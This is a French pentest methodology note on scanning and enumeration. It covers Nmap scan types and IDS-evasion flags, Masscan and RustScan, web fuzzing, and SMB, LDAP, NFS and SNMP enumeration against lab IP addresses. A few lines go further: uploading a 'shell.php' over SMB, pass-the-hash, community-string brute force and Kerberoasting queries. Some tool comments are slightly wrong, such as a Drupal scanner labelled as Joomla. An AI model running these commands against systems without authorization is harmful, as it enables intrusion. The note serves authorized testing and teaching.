




# Scan & Énumération

> [!info] **C'est quoi ?**
> La phase où l'on **cartographie** la cible : ports ouverts, services, versions,
> utilisateurs, partages, vulnérabilités connues. C'est **le cœur** du pentest.

> **Outils associés :** [[Outils/Outil - Nmap|Nmap]] · [[Outils/Outil - Masscan|Masscan]] · [[Outils/Outil - RustScan|RustScan]] · [[Outils/Outil - nuclei|nuclei]] → voir [[Tools| Bibliothèque d'Outils]]

---

## 1. Vue d'ensemble

La phase de scan & énumération se situe juste après la **reconnaissance initiale** (OSINT, DNS). Elle consiste à interroger directement la cible pour extraire un maximum d'informations techniques exploitables.

### Les phases d'un pentest


La phase 2 se décompose elle-même en sous-étapes :



### Reconnaissance passive vs active

| Critère | Passive | Active |
|---|---|---|
| **Contact direct avec la cible** | Non | Oui |
| **Détection par la cible** | Quasi nulle | Possible |
| **Sources** | Shodan, crt.sh, Google, WHOIS | Nmap, Masscan, ffuf |
| **Qualité des données** | Limitée | Détaillée |
| **Légalité** | Presque toujours autorisé | Nécessite autorisation |
| **Utilisation** | Phase 1 uniquement | Phase 2 (cœur du scan) |

> [!tip] **Arbre de décision : quel type de scan lancer ?**
> ```mermaid
> graph TD
>     A["Objectif"] --> B{"Autorisation ?"}
>     B -->|"Non confirmée"| C["Recon passive uniquement"]
>     B -->|"Confirmée"| D{"Réseau local ?"}
>     D -->|"Oui (LAN)"| E["ARP scan → Nmap syn"]
>     D -->|"Non (Internet)"| F["TCP discovery → Masscan → Nmap"]
>     E --> G{"ICMP bloqué ?"}
>     G -->|"Oui"| H["nmap -Pn -PS..."]
>     G -->|"Non"| I["nmap classique"]
> ```

### Méthodologie recommandée

1. **Identifier les hosts actifs** avant de scanner les ports
2. **Scan rapide de tous les ports** avec Masscan ou RustScan
3. **Scan détaillé ciblé** avec Nmap sur les ports découverts
4. **Énumération service par service** selon les ports ouverts
5. **Corrélation** version → CVE → priorisation

> [!warning] **Ne jamais sauter d'étapes**
> Scanner directement 65535 ports avec `-sV -sC` est le meilleur moyen de perdre 30+ minutes. Toujours faire un premier tri rapide.

---

## 2. Découverte d'hôtes

Avant de scanner les ports, il faut savoir **quels hôtes sont actifs** sur le réseau cible.

### Méthodes de découverte

| Méthode | Protocole | Nécessite root | Fonctionne hors LAN | Vitesse |
|---|---|---|---|---|
| ARP scan | ARP (L2) | Oui | Non | Très rapide |
| Ping sweep (ICMP) | ICMP | Oui | Oui | Rapide |
| TCP SYN discovery | TCP | Oui | Oui | Moyen |
| UDP discovery | UDP | Oui | Oui | Lent |
| DNS brute-force | DNS | Non | Oui | Lent |

### ARP Scan (réseau local uniquement)

```bash
# arp-scan : le plus rapide en LAN
arp-scan -l                                    # scan du subnet local
arp-scan -I eth0 192.168.1.0/24                # interface spécifique
arp-scan -I eth0 192.168.1.1-50                # plage précise

# netdiscover : mode passif ou actif
netdiscover -r 192.168.1.0/24                  # actif
netdiscover -p                                  # passif (écoute)
netdiscover -i eth0 -r 192.168.1.0/24
```

### Ping Sweep (quand ICMP n'est pas filtré)

```bash
# nmap -sn : découverte sans scan de ports
nmap -sn 192.168.1.0/24                        # ping sweep
nmap -sn -PE 192.168.1.0/24                    # ICMP echo only
nmap -sn -PA80,443 192.168.1.0/24              # TCP ACK discovery

# fping : parallélisation native
fping -a -g 192.168.1.0/24 2>/dev/null         # liste les IPs actives
```

### TCP SYN Discovery (quand ICMP est bloqué)

```bash
# Découverte TCP sur ports communs
nmap -sn -PS21,22,25,80,443,445,3389 192.168.1.0/24

# Via Masscan (encore plus rapide)
masscan 192.168.1.0/24 -p80,443 --rate=5000    # discovery par HTTP/HTTPS
```

### Quand ICMP est bloqué

```bash
# Forcer le scan avec -Pn (désactive le discovery)
nmap -Pn -sV -sC 192.168.1.10

# Scanner tous les ports sans discovery préalable
nmap -Pn -p- --min-rate 5000 192.168.1.10

# Attention : -Pn sur une large plage = énorme temps de scan
# Mieux vaut utiliser un TCP discovery d'abord
```

---

## 3. Nmap — Maîtrise

[[Outils/Outil - Nmap|Nmap]] est l'outil de référence. Maîtriser chaque option est **essentiel**.

### 3.1 Techniques de scan

| Flag | Nom | Privilèges | Principe | Usage |
|---|---|---|---|---|
| `-sS` | SYN scan | root | Envoie SYN, attend SYN-ACK, envoie RST | Défaut, rapide, discret |
| `-sT` | TCP connect | Aucun | Termine le handshake TCP | Sans root |
| `-sF` | FIN scan | root | Envoie paquet FIN | Contre FW stateless |
| `-sN` | NULL scan | root | Paquet sans flags | Contre FW stateless |
| `-sX` | XMAS scan | root | PSH+FIN+URG | Contre FW stateless |
| `-sA` | ACK scan | root | Envoie ACK | Mapper les règles FW |
| `-sU` | UDP scan | root | Paquets UDP | SNMP, DNS, NTP |
| `-sI` | Idle scan | root | Scan via zombie | Anonymat total |

```bash
# SYN scan (défaut, furtif) - ne termine pas la connexion
nmap -sS 192.168.1.10

# TCP connect (quand on n'est pas root)
nmap -sT 192.168.1.10

# FIN / NULL / XMAS - furtifs mais souvent bloqués
nmap -sF 192.168.1.10
nmap -sN 192.168.1.10
nmap -sX 192.168.1.10

# ACK - mapping de pare-feu (stateful ou pas)
nmap -sA 192.168.1.10

# UDP (lent, crucial pour SNMP/DNS/NTP)
nmap -sU --top-ports 20 192.168.1.10

# Scan "bounce" via un proxy (méthode ancienne)
nmap -sI zombie_ip 192.168.1.10
```

### 3.2 Évasion de pare-feu / IDS

```bash
# Fragmentation des paquets
nmap -f 192.168.1.10
nmap -ff 192.168.1.10                           # double fragmentation

# Décoys (fausses sources)
nmap -D RND:10 192.168.1.10                     # 10 IPs aléatoires + ME
nmap -D decoy1,decoy2,ME 192.168.1.10           # IPs précises

# Spoof de port source (certains FW n'autorisent que le 53)
nmap -g 53 -sS 192.168.1.10

# Randoms delays ( contourne les IDS basés sur la fréquence)
nmap --scan-delay 5s 192.168.1.10
nmap --max-retries 1 --min-rate 100 192.168.1.10

# Interface + Mac spoof
nmap -e eth0 --spoof-mac 00:11:22:33:44:55 192.168.1.10

# Data length (paquets non-standards)
nmap --data-length 25 192.168.1.10

# Idle scan via zombie
nmap -sI zombie_host:port 192.168.1.10
```

| Option d'évasion | Contre quoi ça marche | Efficacité |
|---|---|---|
| `-f` | IDS basé sur taille de paquet | Moyenne |
| `-D` | IDS basé sur IP source | Élevée |
| `-g 53` | FW filtrant par port source | Élevée |
| `--scan-delay` | IDS basé sur fréquence | Moyenne |
| `--data-length` | IDS basé sur signature | Moyenne |
| `-sI` | Toute détection d'IP | Maximale |

### 3.3 Le couple `-sV -sC` et ses variantes

```bash
# Version + scripts par défaut + OS
nmap -sV -sC -O 192.168.1.10

# Version agressive (plus de probes)
nmap -sV --version-intensity 9 192.168.1.10

# Version allégée (plus rapide, moins précis)
nmap -sV --version-intensity 0 192.168.1.10

# Scripts de vulnérabilité
nmap --script vuln 192.168.1.10
nmap --script "vuln or exploit" -p 445 192.168.1.10

# Scripts spécifiques
nmap --script smb-enum-shares -p 445 192.168.1.10
nmap --script http-enum -p 80 192.168.1.10
nmap --script dns-zone-transfer -p 53 example.com

# Scripts par catégorie
nmap --script "default and safe" 192.168.1.10
nmap --script "auth" 192.168.1.10
nmap --script "discovery" -p 80,443 192.168.1.10
```

### 3.4 Ports et états

| État | Signification | Action à suivre |
|---|---|---|
| `open` | Port ouvert, service accessible | Énumération complète |
| `closed` | Port fermé (réponse RST) | Pas de service, mais filtrable |
| `filtered` | Filtré par FW/IDS | Tenter l'évasion ou passer |
| `open\|filtered` | Pas de réponse (UDP) | Tester manuellement |
| `closed\|filtered` | Impossible à déterminer | Passer |

```bash
# Forcer le scan même si le host ne répond pas
nmap -Pn 192.168.1.10

# Scanner uniquement les ports ouverts depuis un scan précédent
nmap -sV -sC -p 22,80,443,8080 192.168.1.10

# Scanner TOUS les ports (lent mais exhaustif)
nmap -p- 192.168.1.10
nmap -p- --min-rate 5000 192.168.1.10           # accéléré

# Ranges de ports
nmap -p 1-1024 192.168.1.10                     # well-known
nmap -p 8000-9000 192.168.1.10                  # plage custom
```

### 3.5 NSE — le moteur de scripts

```bash
# Lister les scripts disponibles
ls /usr/share/nmap/scripts/

# Aide d'un script
nmap --script-help http-shellshock

# Exécution de scripts
nmap --script http-shellshock -p 80 192.168.1.10
nmap --script ssl-heartbleed -p 443 192.168.1.10
nmap --script smb-vuln-ms17-010 -p 445 192.168.1.10
nmap --script http-vuln-cve2017-5638 -p 80 192.168.1.10
nmap --script ftp-anon -p 21 192.168.1.10
nmap --script ssh-auth-methods -p 22 192.168.1.10
nmap --script ssl-enum-ciphers -p 443 192.168.1.10

# Arguments aux scripts
nmap --script "http-brute" --script-args http-brute.path=/admin 192.168.1.10
nmap --script "ldap-search" --script-args ldap.baseDN="dc=example,dc=com" 192.168.1.10

# Combinaison de catégories
nmap --script "(default or safe) and not dos" 192.168.1.10
nmap --script "vuln and not http-vuln-*" 192.168.1.10
```

| Catégorie NSE | Description | Exemples de scripts |
|---|---|---|
| `default` | Scripts sûrs, rapides | banner, http-title, ssh-hostkey |
| `discovery` | Énumération passive | http-headers, ssl-cert, dns-brute |
| `auth` | Tests d'authentification | ssh-brute, http-brute |
| `vuln` | Détection de vulnérabilités | smb-vuln-ms17-010, ssl-heartbleed |
| `exploit` | Tente l'exploitation | http-shellshock |
| `brute` | Force brute | ftp-brute, smb-brute |
| `safe` | Ne crash pas les services | http-enum, ftp-anon |
| `intrusive` | Peut perturber les services | smb-vuln-*, http-vuln-* |

### 3.6 Formats de sortie

```bash
# Tous les formats en une fois
nmap -sV -sC -oA rapport 192.168.1.10
# Génère : rapport.nmap, rapport.gnmap, rapport.xml

# Format XML seul (pour parsing automatisé)
nmap -oX rapport.xml 192.168.1.10

# Format grepable (obsolète mais pratique)
nmap -oG rapport.gnmap 192.168.1.10

# Conversion XML → HTML
xsltproc rapport.xml -o rapport.html
```

```bash
# Parsing du .gnmap
grep "open" rapport.gnmap | cut -d' ' -f2
grep "open" rapport.gnmap | awk '{print $2":"$5}'
xmlstarlet sel -t -v "//port/@portid" rapport.xml
```

### 3.7 Options avancées

```bash
nmap -T4 192.168.1.10                           # timing template (T0-T5)
nmap --max-rate 50 192.168.1.10                  # limiter le débit
nmap -iL targets.txt -oA batch_scan              # batch depuis fichier
nmap --exclude 192.168.1.1 192.168.1.0/24        # exclusion IP
nmap --max-retries 2 --host-timeout 300s 192.168.1.10
```

> [!tip] Astuce : sauvegarder proprement
> ```bash
> nmap -sV -sC -oA scan 192.168.1.10   # crée .nmap .gnmap .xml
> nmap -oX scan.xml 192.168.1.10
> ```
> Le `.gnmap` se parse ensuite automatiquement avec `grep` :
> ```bash
> grep "open" scan.gnmap | cut -d' ' -f2
> ```

---

## 4. Masscan & RustScan

### Masscan — scan massif ultra-rapide

[[Outils/Outil - Masscan|Masscan]] peut scanner **tous les ports de toute une IP** en quelques secondes, là où Nmap mettrait des minutes. Il envoie des paquets SYN brute-force sans maintenir d'état TCP.

```bash
# Scanner tous les ports d'un host
masscan 192.168.1.10 -p1-65535 --rate=1000

# Scanner un réseau entier
masscan 192.168.1.0/24 -p80,443 --rate=10000

# Sortie compatible nmap (pour pipeline)
masscan 192.168.1.10 -p1-65535 --rate=1000 -oL masscan.out
masscan 192.168.1.10 -p1-65535 --rate=1000 -oX masscan.xml

# Exclure des IPs
masscan 192.168.1.0/24 -p0-65535 --excludefile exclude.txt --rate=5000

# Binder à une interface spécifique
masscan 192.168.1.0/24 -p80 --rate=1000 -e eth0
```

| Option | Description |
|---|---|
| `--rate=1000` | Paquets par seconde (100-10000 selon la bande passante) |
| `-p0-65535` | Tous les ports |
| `-oL` | Sortie list format |
| `-oX` | Sortie XML (compatible Nmap) |
| `--excludefile` | Fichier d'exclusion |
| `-e` | Interface réseau |

> [!tip] Workflow Masscan → Nmap
> ```bash
> # 1. Masscan rapide pour trouver les ports ouverts
> masscan 192.168.1.10 -p1-65535 --rate=5000 -oL ports.txt
> # 2. Extraire les ports
> grep "open" ports.txt | awk -F'/' '{print $1}' | sort -n > ports_clean.txt
> # 3. Nmap détaillé UNIQUEMENT sur ces ports
> nmap -sV -sC -Pn -p$(cat ports_clean.txt | tr '\n' ',') 192.168.1.10
> ```

### RustScan — Nmap en Rust

[[Outils/Outil - RustScan|RustScan]] est un scanner de ports rapide écrit en Rust qui s'intègre naturellement avec Nmap.

```bash
# Scan rapide, puis Nmap automatiquement
rustscan -a 192.168.1.10 -- -sV -sC

# Définir le batch size
rustscan -a 192.168.1.10 -b 500 -- -sV

# Range de ports
rustscan -a 192.168.1.10 -p 1-1000 -- -sC

# Script Nmap spécifique
rustscan -a 192.168.1.10 -- -Pn -sV --script vuln
```

---

## 5. Énumération Web

L'énumération web est souvent la phase la plus riche en vecteurs d'attaque.

### 5.1 Découverte de répertoires et fichiers

```bash
# ffuf — le standard actuel (très rapide, multithreadé)
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://192.168.1.10/FUZZ -mc 200,301,302,403
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
     -u http://192.168.1.10/FUZZ -mc 200 -fs 1234          # filtrer par taille

# Fuzzing de paramètres GET
ffuf -w params.txt -u http://192.168.1.10/page.php?FUZZ=1 -fs 0

# Fuzzing de Virtual Hosts
ffuf -w subdomains.txt -H "Host: FUZZ.example.com" -u http://192.168.1.10 -mc 200

# Fuzzing de fichiers (extensions multiples)
ffuf -w common.txt -u http://192.168.1.10/FUZZ -e .php,.txt,.bak,.old,.zip,.conf

# POST fuzzing
ffuf -w users.txt -X POST -d "user=FUZZ" -u http://192.168.1.10/login -fs 0

# Cookie fuzzing
ffuf -w cookies.txt -u http://192.168.1.10/ -H "Cookie: session=FUZZ" -fc 404

# Matcher avancé
ffuf -w common.txt -u http://192.168.1.10/FUZZ -mc 200,301,302 -fs 0 -fc 403 -fr "Redirect"
```

| Option ffuf | Description |
|---|---|
| `-mc` | Matcher par code HTTP |
| `-fs` / `-fc` | Filtrer par taille ou code |
| `-e` | Extensions à tester |
| `-X` / `-d` | Méthode et données POST |
| `-H` | Headers custom |
| `-t` | Threads (défaut : 40) |
| `-recursion` | Récursion dans les dossiers |

```bash
# gobuster — alternative populaire
gobuster dir -u http://192.168.1.10 -w common.txt -x php,txt -t 50
gobuster dir -u http://192.168.1.10 -w common.txt -b 404,403
gobuster vhost -u http://192.168.1.10 -w subdomains.txt   # virtual hosts
gobuster dns -d example.com -w subdomains.txt              # sous-domaines

# wfuzz — puissant pour le fuzzing paramétrique
wfuzz -z file,common.txt --hc 404 http://192.168.1.10/FUZZ
wfuzz -z file,users.txt -z file,pass.txt --hc 400 http://192.168.1.10/login?user=FUZZ&pass=W1
wfuzz -z file,params.txt --hc 404 "http://192.168.1.10/page?FUZZ=test"

# dirsearch — automatisé et simple
dirsearch -u http://192.168.1.10 -e php,html,js
```

### 5.2 Analyse de technologie

```bash
# WhatWeb — fingerprint de technologies
whatweb http://192.168.1.10

# Wappalyzer (navigateur ou CLI)

# CMS Detection
wpscan --url http://192.168.1.10 --enumerate vp,vt,u    # WordPress
droopescan scan drupal -u http://192.168.1.10            # Joomla
```

### 5.3 Fichiers et endpoints critiques

```bash
# robots.txt et sitemap.xml
curl -s http://192.168.1.10/robots.txt
curl -s http://192.168.1.10/sitemap.xml

# Extraction de endpoints depuis les JS
cat js_urls.txt | grep -oP '"/[^"]+"'
cat page.html | grep -oP 'https?://[^"'"'"' ]+' | sort -u

# waybackurls — archive historique
echo example.com | waybackurls

# Fichiers sensibles exposés
# .git/, .env, .htaccess, web.config, backup.zip, dump.sql
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt \
     -u http://192.168.1.10/FUZZ -mc 200 -e .git/,.env,.bak,.sql,.zip,.old
```

### 5.4 Scan de vulns web

```bash
# nikto — scanner de vulnérabilités web classique
nikto -h http://192.168.1.10 -C all
nikto -h http://192.168.1.10 -p 8080
nikto -h http://192.168.1.10 -o rapport.html -Format htm

# [[Outils/Outil - nuclei|nuclei]] — scanner basé sur des templates
nuclei -u http://192.168.1.10 -t cves/
nuclei -u http://192.168.1.10 -t vulnerabilities/ -severity critical,high
nuclei -l urls.txt -t /opt/nuclei-templates/ -o results.txt

# sqlmap — détection injection SQL
sqlmap -u "http://192.168.1.10/page?id=1" --batch --dbs
```

### 5.5 Virtual Hosts

```bash
# Découvrir des noms d'hôtes virtuels
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
     -H "Host: FUZZ.example.com" -u http://TARGET_IP -mc 200

# Gobuster vhost
gobuster vhost -u http://192.168.1.10 -w subdomains.txt

# Lister les Virtual Hosts via Host headers
curl -H "Host: admin.example.com" http://192.168.1.10
```

Pour plus de détails, consulter [[Techniques/Virtual Hosts]].

---

## 6. Énumération SMB/NetBIOS

SMB (Server Message Block) est un protocole critique en pentest : il donne accès aux fichiers, aux utilisateurs, et parfois à l'exécution de commandes.

### 6.1 Enum4linux-ng

```bash
enum4linux-ng -A 192.168.1.10                    # énumération complète
enum4linux-ng -u user -p pass -A 192.168.1.10    # avec credentials
enum4linux-ng -A -J output.json 192.168.1.10     # export JSON
```

### 6.2 SMBClient — exploration des partages

```bash
smbclient -L //192.168.1.10/                     # lister les partages
smbclient -L //192.168.1.10/ -U user%pass
smbclient //192.168.1.10/share -U user%pass       # se connecter
smbclient //192.168.1.10/share -N                 # session anonyme
smbclient //192.168.1.10/share -U user%pass -c "get secret.txt"
```

### 6.3 SMBMap — listing et upload/download

```bash
smbmap -H 192.168.1.10 -u '' -p ''               # partages anonymes
smbmap -H 192.168.1.10 -u user -p pass -R        # récursif
smbmap -H 192.168.1.10 -u user -p pass --upload shell.php share1/
smbmap -H 192.168.1.10 -u user -p pass --download share1/backup.zip
```

### 6.4 NetExec (ex CrackMapExec)

```bash
nxc smb 192.168.1.10 -u '' -p '' --shares
nxc smb 192.168.1.10 -u user -p pass --users
nxc smb 192.168.1.10 -u user -p pass --rid-brute 1100
nxc smb 192.168.1.10 -u user -p pass --groups
nxc smb 192.168.1.10 -u user -p pass -M spider_plus --share C$
nxc smb 192.168.1.10 -u admin -H 'aad3b435...:' --shares   # Pass-the-Hash
```

### 6.5 Null Session (session anonyme)

```bash
# RPC Client — null session
rpcclient -U "" 192.168.1.10
  > enumdomusers
  > enumdomgroups
  > getdompwinfo
  > queryuser 500
  > lookupnames admin

# smbclient avec session vide
smbclient -L //192.168.1.10/ -N
```

### 6.6 NetBIOS / NBT-NS

```bash
# nbtscan — scanner les noms NetBIOS
nbtscan 192.168.1.0/24
nbtscan -r 192.168.1.0/24

# Nmap
nmap --script nbstat.nse -p 137 192.168.1.10
```

| Port | Service | Usage |
|---|---|---|
| 135 | RPC | Enum RPC, MSRPC |
| 137 | NetBIOS Name | Résolution de noms |
| 138 | NetBIOS Datagram | Broadcasts |
| 139 | NetBIOS Session | SMB over NetBIOS |
| 445 | SMB Direct | SMB moderne (sans NetBIOS) |

Voir aussi [[Techniques/LLMNR-NBT-NS Poisoning]] pour les attaques associées.

---

## 7. Énumération LDAP

LDAP (Lightweight Directory Access Protocol) est le protocole utilisé par Active Directory pour stocker les objets du domaine.

### 7.1 Découverte et anonymous bind

```bash
ldapsearch -x -H ldap://192.168.1.10 -s base namingContexts
ldapsearch -x -H ldap://192.168.1.10 -b "" -s base "(objectClass=*)"
ldapsearch -x -H ldap://192.168.1.10 -b "dc=example,dc=com"
```

### 7.2 Énumération des objets AD

```bash
ldapsearch -x -H ldap://192.168.1.10 -b "dc=example,dc=com" "(objectClass=user)" sAMAccountName
ldapsearch -x -H ldap://192.168.1.10 -b "dc=example,dc=com" "(objectClass=group)" cn
ldapsearch -x -H ldap://192.168.1.10 -b "dc=example,dc=com" "(objectClass=computer)" cn
# Comptes désactivés (UAC flag)
ldapsearch -x -H ldap://192.168.1.10 -b "dc=example,dc=com" \
  "(userAccountControl:1.2.840.113556.1.4.803:=2)" sAMAccountName
# Comptes sans mot de passe
ldapsearch -x -H ldap://192.168.1.10 -b "dc=example,dc=com" \
  "(userAccountControl:1.2.840.113556.1.4.803:=32)" sAMAccountName
# SPN (pour Kerberoasting)
ldapsearch -x -H ldap://192.168.1.10 -b "dc=example,dc=com" \
  "(servicePrincipalName=*)" servicePrincipalName sAMAccountName
```

### 7.3 Avec credentials

```bash
# Bind avec credentials
ldapsearch -x -H ldap://192.168.1.10 \
  -D "user@example.com" -w 'password' \
  -b "dc=example,dc=com" "(objectClass=user)" sAMAccountName

# Via NetExec
nxc ldap 192.168.1.10 -u user -p pass --users
nxc ldap 192.168.1.10 -u user -p pass --get-sid
nxc ldap 192.168.1.10 -u user -p pass --get-netbios
```

### 7.4 Attributs LDAP importants

| Attribut | Description |
|---|---|
| `sAMAccountName` | Nom de compte utilisateur |
| `distinguishedName` | DN complet de l'objet |
| `memberOf` | Groupes d'appartenance |
| `userAccountControl` | Flags du compte (actif, désactivé, etc.) |
| `servicePrincipalName` | SPN (Kerberos) |
| `pwdLastSet` | Date du dernier changement de MDP |
| `logonCount` | Nombre de connexions |
| `msDS-AllowedToDelegateTo` | Delegation autorisée |
| `ms-Mcs-AdmPwd` | Mot de passe LAPS |

Voir [[05 - Active Directory| Active Directory]] pour les attaques LDAP avancées.

---

## 8. Énumération NFS

NFS (Network File System) expose des partages de fichiers sur le réseau. Les erreurs de configuration sont fréquentes.

```bash
showmount -e 192.168.1.10                        # exports NFS
showmount -a 192.168.1.10                        # montages actifs
sudo mkdir -p /mnt/nfs
sudo mount -t nfs -o vers=3 192.168.1.10:/share /mnt/nfs
ls -laR /mnt/nfs/
nmap --script nfs-showmount,nfs-ls -p 2049 192.168.1.10
```

### Points de contrôle NFS

| Vérification | Commande | Risque si mal configuré |
|---|---|---|
| `no_root_squash` | `cat /etc/exports` sur la cible | Root local = root distant |
| `all_squash` | `cat /etc/exports` | Tous les users = même UID |
| UID matching | `ls -ln /mnt/nfs/` | Escalation via UID partagé |
| RW access | `touch /mnt/nfs/test` | Écriture = exécution possible |
| Sous-répertoires | `ls -laR /mnt/nfs/` | Fichiers sensibles exposés |

```bash
# Brute-force des partages NFS
nmap --script nfs-showmount -p 2049 192.168.1.0/24

# Scanner plusieurs exports
for share in home data backup public; do
    sudo showmount -e 192.168.1.10 2>/dev/null
    sudo mount -t nfs 192.168.1.10:/$share /mnt/nfs_$share 2>/dev/null
done
```

---

## 9. Énumération SNMP

SNMP (Simple Network Management Protocol) est une mine d'or quand la communauté est devinable.

### 9.1 Découverte de communautés

```bash
# snmpwalk — interroger un OID
snmpwalk -c public -v2c 192.168.1.10 1.3.6.1.2.1.1      # systInfo
snmpwalk -c public -v2c 192.168.1.10 1.3.6.1.4.1        # enterprises

# onesixtyone — brute-force de communautés
onesixtyone -c /usr/share/wordlists/snmp.txt -i ips.txt

# snmp-check — tout en un
snmp-check -t 192.168.1.10 -c public
snmp-check -t 192.168.1.10 -c private

# Bulk walk (plus rapide)
snmpbulkwalk -c public -v2c 192.168.1.10 1
```

### 9.2 OIDs utiles — table complète

| OID | Description | Données récupérées |
|---|---|---|
| `.1.3.6.1.2.1.1.1` | Système | Description OS |
| `.1.3.6.1.2.1.1.3` | Uptime | Depuis quand allumé |
| `.1.3.6.1.2.1.1.5` | Nom d'hôte | Hostname du device |
| `.1.3.6.1.2.1.4.1` | IP forwarding | Routing actif |
